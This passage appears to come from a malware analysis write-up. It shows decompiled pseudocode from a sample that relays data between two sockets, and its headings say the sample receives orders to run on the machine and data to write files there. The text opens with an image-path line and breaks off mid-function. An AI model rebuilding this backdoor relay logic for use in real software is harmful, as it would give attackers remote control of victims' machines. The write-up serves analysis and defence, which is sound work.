 ```cpp
 return (undefined4)var_4h;
}
```

<h4>This check the reply for getting the orders to perform on the machine.</h4>

```cpp
if (((int64_t)(&readfds)[(int32_t)uVar3 >> 6] >>  (((char)(uint32_t)socket + (uVar2 >> 2) & 0x3f) - (uVar2 >> 2) &  0x3f) & 1U) != 0) {
 length = recv_((uint64_t)(uint32_t)socket, (void *)((int64_t)&socket + 4), 0x1000);
 if (length < 1) {return 0 }
 var_14h = send_((uint64_t)(uint32_t)arg2, (char *)((int64_t)&socket + 4), (int64_t)length);
 if (var_14h != length) { return 0; }
}
```

<h4>This can also receive the data for writing a file on the machine.</h4>

```cpp
var_4h = 0;
 socket._0_4_ = (uint32_t)arg1;
 do {
  do {
   do {
    while( true ) {
     iVar5 = 0x10;
     puVar6 = &readfds;
     while (iVar5 != 0) {
      iVar5 = iVar5 + -1;
      *puVar6 = 0;
      puVar6 = puVar6 + 1;
     }
     var_8h = 0;
     var_ch = (int32_t)puVar6;
     uVar3 = (uint32_t)socket;
     if ((int32_t)(uint32_t)socket < 0) {  uVar3 = (uint32_t)socket + 0x3f; }
     uVar1 = (uint8_t)((int32_t)(uint32_t)socket >> 0x37);
     (&readfds)[(int32_t)uVar3 >> 6] = 1 << (((char)(uint32_t)socket + (uVar1 >> 2) & 0x3f) - (uVar1 >> 2) & 0x3f) | (&readfds)[(int32_t)uVar3 >> 6];
     uVar3 = (uint32_t)arg2;
     if ((int32_t)(uint32_t)arg2 < 0) { uVar3 = (uint32_t)arg2 + 0x3f;}
     uVar1 = (uint8_t)((int32_t)(uint32_t)arg2 >> 0x37);
     (&readfds)[(int32_t)uVar3 >> 6] = 1 << (((char)(uint32_t)arg2 + (uVar1 >> 2) & 0x3f) - (uVar1 >> 2) & 0x3f) | (&readfds)[(int32_t)uVar3 >> 6];
     writefds = 1;
     var_a8h = 0;
     uVar3 = (uint32_t)arg2;
     if ((int32_t)(uint32_t)arg2 < (int32_t)(uint32_t)socket) { uVar3 = (uint32_t)socket;  }
     var_4h = select(uVar3 + 1, &readfds, 0, 0, &writefds);
     if (-1 < (int32_t)var_4h) break;
     piVar4 = (int32_t *)__errno_location();
     if (*piVar4 != 4) { return 0xffffffff; }
    }
   } while (var_4h == 0);
   uVar3 = (uint32_t)socket;
   if ((int32_t)(uint32_t)socket < 0) {
    uVar3 = (uint32_t)socket + 0x3f;
   }
   uVar2 = (uint8_t)((int32_t)(uint32_t)socket >> 0x37);
   if (((int64_t)(&readfds)[(int32_t)uVar3 >> 6] >>
     (((char)(uint32_t)socket + (uVar2 >> 2) & 0x3f) - (uVar2 >> 2) & 0x3f) & 1U) != 0) {
    length = recv_((uint64_t)(uint32_t)socket, (void *)((int64_t)&socket + 4), 0x1000);
    if (length < 1) {  return 0; }
    var_14h = send_((uint64_t)(uint32_t)arg2, (char *)((int64_t)&socket + 4), (int64_t)length);
    if (var_14h != length) { return 0; }
```